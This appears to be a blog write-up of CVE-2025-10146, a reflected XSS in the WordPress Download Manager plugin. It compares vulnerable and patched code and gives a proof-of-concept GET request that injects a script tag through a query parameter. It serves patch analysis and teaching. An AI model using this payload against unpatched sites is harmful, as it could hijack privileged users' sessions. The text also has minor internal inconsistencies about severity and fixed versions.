





<!--more-->

A vulnerability exists in the **Download Manager** plugin prior to version **3.3.24**. Data retrieved from **GET** requests is printed directly into **HTML attributes**, leading to **reflected XSS** when a user with privileges accesses a URL crafted by an attacker.

* **CVE ID**: [CVE-2025-10146](https://www.cve.org/CVERecord?id=CVE-2025-10146)
* **Product**: [WordPress Download Manager Plugin](https://wordpress.org/plugins/download-manager)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 3.3.23
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Download Manager**: v3.3.23(vulnerable) and v3.3.24(fixed)
* **diff tool**: **meld** or any tool capable of comparing differences between two versions

## Analysis

### Patch Diff

Use any diff tool to compare the vulnerable and patched versions. A significant difference appears in **src/Admin/views/stats/history.php**.

**Vulnerable code**:

```php
<?php if (!empty($user_ids)): ?>
    <div class="clear-filter">
        <?php
        $get_params_xu = $get_params;
        unset($get_params_xu['user_ids']);
        $reset_url = add_query_arg($get_params_xu, 'edit.php');
        ?>
        <a href="<?php echo $reset_url; ?>" class="clear-btn" title="<?php _e('Clear user filter', 'download-manager'); ?>">
            <i class="fas fa-times"></i>
        </a>
    </div>
<?php endif; ?>
```

The **GET parameters** are directly assigned to the `<a>` element's **href** without any protection, creating a risk of **reflected XSS**.

**Patched code**:

```php
<?php if (!empty($user_ids)): ?>
    <div class="clear-filter">
        <?php
        $get_params_xu = $get_params;
        unset($get_params_xu['user_ids']);
        $get_params_xu = \WPDM\__\__::sanitize_array($get_params_xu, 'safetxt');

        $reset_url = add_query_arg($get_params_xu, 'edit.php');
        ?>
        <a href="<?php echo esc_url($reset_url); ?>" class="clear-btn" title="<?php _e('Clear user filter', 'download-manager'); ?>">
            <i class="fas fa-times"></i>
        </a>
    </div>
<?php endif; ?>
```



The patch **sanitizes** the **GET parameters** using `sanitize_array` and uses `esc_url` to **escape the URL**, making it safe.

### How It Works

We need to identify the real URL to inject GET parameters containing the XSS payload.

**src/Admin/views/stats/history.php** contains PHP and HTML tags inside the **views** folder, indicating it is included somewhere in the plugin.

Searching for `history.php` in the plugin directory:



👉 No direct matches are found. It is likely included dynamically like `{$file_name}.php`. Using regex `\{.*\}\.php`:



**src/Admin/views/stats/history.php** is included in **src/Admin/views/stats.php**.

The actual URL to access is declared at the top of **stats.php**:

```
$base_page_uri = "edit.php?post_type=wpdmpro&page=wpdm-stats";
```

Similarly, **stats.php** is also included elsewhere, but it’s not necessary to trace further since the URL is identified.

To verify, we set a **breakpoint** in **src/Admin/views/stats/history.php**, start debugging, and access the URL:

```
edit.php?post_type=wpdmpro&page=wpdm-stats
```



First, the plugin collects all **GET parameters** into `$get_params`.

If `$user_ids` is not empty, a **“Clear filter” button** is created. To make the button functional, it must generate a URL without the `user_ids` parameter:

```php
$get_params_xu = $get_params;        // copy all GET parameters
unset($get_params_xu['user_ids']);   // remove user_ids from array
$reset_url = add_query_arg($get_params_xu, 'edit.php'); // generate new URL
```

* `unset($get_params_xu['user_ids'])` removes the filter.
* `add_query_arg($get_params_xu, 'edit.php')` generates the URL with remaining parameters.

This URL is attached to the “Clear filter” button:

```php
<a href="<?php echo $reset_url; ?>" class="clear-btn">...</a>
```

**Result:** Clicking the button reloads the page without the `user_ids` filter.

## Exploit

### Detect XSS

Send a GET request containing the XSS payload:

```http
GET /wp-admin/edit.php?post_type=wpdmpro&page=wpdm-stats&user_ids[0]=1&payload="></a><script>alert(document.domain)</script> HTTP/1.1
```

The `"></a>` closes the `<a>` tag, followed by a `<script>` to trigger `alert()`.



👉 XSS succeeds. When a user with privileges accesses the attacker-provided URL, **reflected XSS** occurs, simulating an **Unauthenticated attack** scenario.

## Conclusion

The vulnerability **CVE-2025-10146** in **WordPress Download Manager <= 3.3.23** is a **reflected XSS**, occurring when **GET request** data is printed directly into an **HTML attribute** without sanitization or escaping. Privileged users accessing the attacker-crafted URL may be exploited.

The patch in **3.3.24**:

1. **Sanitizes GET parameters** (`sanitize_array`) to remove dangerous characters.
2. **Escapes URL** (`esc_url`) before rendering in HTML to prevent XSS.

**Key takeaways**:

* Always **sanitize and escape user input** before rendering in HTML.
* Check **user permissions** before processing or displaying sensitive data.
* Low-privilege roles (like contributor) can become attack vectors if the plugin does not enforce proper protections.
* Updating plugins regularly is a simple and effective defense.

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Download Manager Plugin <= 3.3.24 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/download-manager/vulnerability/wordpress-download-manager-plugin-3-3-23-reflected-cross-site-scripting-via-user-ids-parameter-vulnerability)
